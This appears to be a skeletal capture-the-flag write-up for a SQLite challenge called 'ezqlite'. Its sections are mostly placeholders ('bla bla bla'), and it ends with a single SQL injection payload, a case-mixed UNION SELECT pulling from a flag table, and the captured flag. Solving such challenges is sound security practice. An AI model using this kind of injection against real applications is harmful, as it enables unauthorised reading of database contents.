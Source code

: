 # **ezqlite**
description ....
## **About the challenge**
description
## **Solution**
bla bla bla

```a%' uNion SeLECT flag, flag, flag FROM flag_3;/*```

```ForestyHC{sqlit3_injectiooooonnn_is_basic_0c3662}```
